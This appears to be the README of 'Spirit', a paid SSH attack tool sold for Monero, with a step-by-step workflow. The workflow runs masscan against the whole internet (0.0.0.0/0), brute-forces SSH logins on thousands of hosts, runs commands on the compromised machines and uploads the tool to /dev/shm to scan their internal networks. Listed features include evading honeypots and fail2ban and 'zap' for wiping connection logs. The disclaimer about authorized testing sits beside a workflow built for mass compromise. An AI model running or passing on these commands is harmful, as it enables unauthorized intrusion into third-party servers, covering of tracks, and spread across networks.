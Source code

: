 # Spirit - Network Pentest Tools

### [Download the latest Spirit release](https://github.com/theaog/spirit/releases)

> [`$ ./spirit --help`](./HELP) shows you all the included tools. \
Most commands have subcommands `./spirit <command> --help`

## Quick Start
```bash
# download spirit
wget https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
# unpack spirit
tar xvf spirit.tgz
./spirit --help

# install masscan
sudo apt install masscan
# copy masscan into your current working directory
cp `which masscan` .

# start the show! <class-A> <port1,port2,port3> <speed> 
# ./spirit ports generates 3 random ports 1-65535 and keeps track of
# already generated port numbers in ports.lst
./go.sh 172 $(./spirit ports) 50000
```

## Support
- [GitHub Issue](https://github.com/theaog/spirit/issues/new)
- [Telegram](https://t.me/pentestspirit)

## Example usage for SSH brute flow TLDR;
```bash
# First scan your network or the internet (check disclaimer) to acquire a list of open ports.
$ masscan \
    --rate="50000" \
    --ports "22,222,2222,2212" 0.0.0.0/0 \
    --exclude 255.255.255.255 \
    -oG open.lst
Scanning 4294967295 hosts [4 ports/host]
# masscan will create an open.lst file in oG (output Greppable) format.

# Parse this open.lst to format the data, so that spirit can understand it.
$ ./spirit parse
INFO created h.lst in HOST:PORT format

# Optional: create a filter.lst file if you want to skip certain SSH versions.
$ cat >filter.lst<< EOF
SSH-1.0
SSH-2.0-CISCO
SSH-2.0-Comware
EOF

# Grab SSH banners to make sure your target version is running on the host. NOTE: Makes a backup of h.lst to h.lst.bak
$ ./spirit banner
INFO backing up h.lst to h.lst.bak
SSH-2.0-OpenSSH_8.2p  13% [=>                  ] [11s:1m15s]
INFO created h.lst in HOST:PORT:BANNER format
head -n1 h.lst
100.100.100.100:2222:SSH-2.0-OpenSSH_6.6.1

# Add a password list, spirit will automatically load user:pass from a p.lst file.
# NOTE: if p.lst is not present, Spirit uses an internal passfile
$ cat > p.lst << EOF
user1:pass1
user1:pass2
user2:pass50
EOF

# Start bruting...
$ ./spirit brute
INFO loaded h.lst with 26803 hosts
INFO loaded p.lst with 4881 logins
[2478/4653]root:!1qwerty [77]found [33]blocked [1284]threads 20% [====>               ] [20s:1h13m36s]
failed connections statistics:
(    7)  ssh: closed network connection 30s timeout
(    7)  total failed
results stored in:
- found.ssh # for quick manual connect
- found.login # user:pass combinations that worked
- found.lst # used by `spirit auto-ssh` for connecting en-masse
[26803]hosts [4000]bruted [3000]found [19803]blocked

# Connect to all your found hosts automatically & run commands.
$ ./spirit auto-ssh --command 'whoami && uptime'
# Upload spirit to all hosts and scan the LAN
$ ./spirit auto-ssh --upload ./spirit --command '/dev/shm/spirit scan --lan'
```

> Tip: you can automate these steps with `./spirit auto-brute` for continuous automatic probing on random ports & bruting. ![forever](asset/forever.png)

## Upgrade Spirit automaticaly
```bash
./spirit upgrade
Upgrading 87% [========================>     ] (5.9/5.9 MB, 49.652 MB/s)
```

## Spirit is Free (sorta)
Scanning port 22 is unlimited, any other port requires a license.

## You can unlock Spirit's full functionality directly from the CLI by obtaining a license.
```bash
$ ./spirit buy
Monero only, you can convert other crypto assets to XMR on https://tradeogre.com
If you have any issue w/ the payment-flow, contact us https://github.com/theaog/spirit/issues
+--------------+-------------------+------------------+
| SPIRIT BASIC |    SPIRIT PRO     |   SPIRIT ULTRA   |
+--------------+-------------------+------------------+
| brute        | brute-key         | exploit          |
| banner       | auto-ssh          | proxy-banner     |
| scan         | masscan           | encrypt          |
| auto-brute   | passwd            |                  |
|              | abuse             |                  |
|              |                   |                  |
|              |                   |                  |
+--------------+-------------------+------------------+
|  3 SERVERS   | 6 SERVERS + BASIC | 12 SERVERS + PRO |
+--------------+-------------------+------------------+
Use the arrow keys to navigate: ↓ ↑ → ←
? Select your Spirit version::
  ▸ Basic TRIAL $15 (3 days)
    Basic $100 (30 days)
    Pro $200 (30 days)
    Ultra $500 (30 days)
    Referral code
```

## Key Features
- extracts SSH banners accurately (retry failed hosts) and fast (many threads)
- brute multiple ports at once: 1.1.1.1:22, 1.1.1.1:23, etc.
- brute using private keys `./spirit brute-key --file id_rsa`
- brute auto-blocks honeypots not wasting time nor giving away all your passwords
- brute also blocks hosts that are unreachable, or have fail2ban installed (less dull work, faster scanning)
- brute will try every connection twice before blocking unreachable hosts to increase accuracy
- very light on server load, your CPU will thank you!
- `./spirit omni -c 'uptime'` connect to all your found hosts at once, upload files and execute remote commands
- `./spirit zap` clean connection logs 
- `./spirit masscan --zone zone.lst --rate 10_000` masscan whole zones automatically 
- `./spirit auto-brute` scan & brute your network on random ports over and over -- spot vulnerabilities before they happen
- `./spirit exploit` test targets for common local and remote exploits
- and more... [`$ ./spirit --help`](./HELP) 

# Support our development
## Monero (XMR) thank you! (our favorite)
`895LJnKcfTv7NHf7SN1zz5UzhBRwwvdR8NYLvXNr54jJ3GXghBoyfBKLp2dL4GcYohQatRnigct8zgK6utkjjeBxVNsky1s`

![xmrqr](asset/xmrqr.png)

## Bitcoin (BTC) thank you too!
`bc1q7plm79dgllrhrjz772x4vjrtvu9yy03738psy5`

## Get Help & Support
Open a Github [issue](https://github.com/theaog/spirit/issues) and consider encrypting your message using this pub key [aog.gpg](asset/aog.gpg).

Don't forget to give us a Star!

> NOTICE: rumors have been circulating that `spirit` contains a backdoor -- that's not true, we would never do that. We offer a bounty of 50XMR to whomever opens an issue in this repo and provides undeniable proof of the "alleged" backdoor.

Spirit is clean software the only data it sends home is your machine-id to verify the license.

# Disclaimer

This tool should be used for authorized penetration testing and/or educational purposes only.
Any misuse of this software will not be the responsibility of the author or of any other collaborator.
Use it on your own systems and/or with the system owner's permission.

Usage of any tools in this repository for attacking targets without prior mutual consent is illegal.
It is the end user’s responsibility to obey all applicable local, state and federal laws.
We assume no liability and are not responsible for any misuse or damage caused.
